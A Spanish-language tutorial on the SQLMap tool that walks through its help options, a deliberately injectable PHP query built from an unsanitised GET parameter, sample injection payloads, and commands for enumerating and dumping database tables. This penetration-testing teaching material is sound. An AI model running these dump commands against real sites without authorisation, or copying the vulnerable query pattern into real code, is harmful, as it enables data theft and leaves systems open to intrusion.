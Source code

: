 ### **Introducción a SQLMap**

SQLMap es una herramienta automatizada para detectar y explotar vulnerabilidades de inyección SQL. Para los nuevos usuarios, SQLMap ofrece mensajes de ayuda básicos y avanzados para facilitar su uso.

---

### **1. Opciones de Ayuda de SQLMap**

#### **Ayuda Básica**

El comando `-h` muestra las opciones más comunes:

```bash
sqlmap -h
```

- **Opciones principales:**
    - `-u URL`: Define la URL objetivo (ejemplo: `http://www.site.com/vuln.php?id=1`).
    - `--version`: Muestra la versión de SQLMap.
    - `-v VERBOSE`: Niveles de verbosidad (0-6).

#### **Ayuda Avanzada**

El comando `-hh` lista todas las opciones disponibles:

```bash
sqlmap -hh
```

- **Opciones avanzadas destacadas:**
    - **Objetivos:**
        - `-d DIRECT`: Conexión directa a la base de datos.
        - `-l LOGFILE`: Importa objetivos desde un archivo de registro como Burp Suite.
        - `-m BULKFILE`: Escanea múltiples objetivos desde un archivo de texto.
    - **Configuración de solicitud:**
        - `--method=METHOD`: Fuerza un método HTTP (ejemplo: PUT).
        - `--data=DATA`: Datos enviados mediante POST (ejemplo: `id=1`).
        - `--cookie=COOKIE`: Especifica una cookie HTTP.

---

### **2. Escenario Básico**

Un escenario común es probar si una aplicación web que acepta parámetros vía **GET** es vulnerable a inyecciones SQL. Un ejemplo básico en PHP:

```php
$link = mysqli_connect($host, $username, $password, $database, 3306);
$sql = "SELECT * FROM users WHERE id = " . $_GET["id"] . " LIMIT 0, 1";
$result = mysqli_query($link, $sql);
if (!$result)
    die("<b>SQL error:</b> ". mysqli_error($link) . "<br>\n");
```

Si el servidor tiene **reportes de errores habilitados**, cualquier problema en las consultas SQL será visible, facilitando la detección de vulnerabilidades manualmente.

**Ejemplo URL:**

```plaintext
http://www.example.com/vuln.php?id=1
```

**Uso de SQLMap:**

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --batch
```

---

### **3. Salida de SQLMap**

SQLMap analiza la URL y muestra información detallada sobre las vulnerabilidades encontradas. Ejemplo:

1. **Conexión establecida:**
    
    ```plaintext
    [INFO] testing connection to the target URL
    ```
    
2. **Detección de inyecciones SQL:**
    
    ```plaintext
    [INFO] GET parameter 'id' appears to be 'AND boolean-based blind' injectable
    ```
    
3. **Técnicas de explotación identificadas:**
    
    - **Boolean-based blind:**
        
        ```plaintext
        Payload: id=1 AND 8814=8814
        ```
        
    - **Error-based:**
        
        ```plaintext
        Payload: id=1 AND (SELECT COUNT(*) FROM information_schema.tables)
        ```
        
    - **Time-based blind:**
        
        ```plaintext
        Payload: id=1 AND SLEEP(5)
        ```
        
    - **UNION query:**
        
        ```plaintext
        Payload: id=1 UNION ALL SELECT NULL,@@version,NULL
        ```
        
4. **Identificación del entorno:**
    
    ```plaintext
    back-end DBMS: MySQL >= 5.0
    web application technology: PHP 5.2.6, Apache 2.2.9
    ```
    
5. **Datos obtenidos:** Los resultados se almacenan en:
    
    ```plaintext
    /home/user/.sqlmap/output/www.example.com
    ```
    

---

### **4. Comandos Útiles para SQLMap**

#### **Enumerar Bases de Datos**

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --dbs
```

#### **Enumerar Tablas**

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" -D database_name --tables
```

#### **Volcar Información de una Tabla**

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" -D database_name -T table_name --dump
```

#### **Especificar Técnicas de Inyección**

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --technique=BU
```

- `B`: Boolean-based blind.
- `U`: UNION query-based.

#### **Evitar Pruebas de Otros DBMS**

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --dbms=mysql
```

---

### **5. Consejos para el Uso de SQLMap**

- Utiliza `--batch` para automatizar respuestas predeterminadas y evitar interrupciones.
- Combina SQLMap con herramientas como **Burp Suite** para capturar y procesar solicitudes complejas.
- Mantén SQLMap actualizado para aprovechar nuevas características y correcciones.

---

### **Conclusión**

SQLMap es una herramienta poderosa que facilita la identificación y explotación de vulnerabilidades de inyección SQL. A través de sus opciones básicas y avanzadas, permite a los profesionales realizar pruebas de penetración de manera eficiente y controlada. Siempre asegúrate de utilizarla de forma ética y con autorización.